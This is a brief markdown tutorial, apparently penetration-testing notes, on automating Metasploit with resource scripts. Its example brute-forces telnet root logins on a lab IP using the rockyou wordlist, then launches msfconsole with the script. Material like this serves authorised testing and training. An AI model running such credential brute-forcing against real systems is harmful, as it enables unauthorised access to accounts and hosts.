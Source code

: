 How to create **automated Metasploit scripts**:

- Create the file:
````
vim file.rc

#vim linux_telnet_script.rc
```` 
- Fill it:
````
#Here is an example of script

use auxiliary/scanner/telnet/telnet_login
set PASS_FILE /usr/share/wordlists/rockyou.txt
set RHOSTS 192.168.58.129
set THREADS 254
set USERNAME root
set VERBOSE true
run
````
- Open a new console and type:
````
service postgresql start

msfconsole -r route_to_the_script
````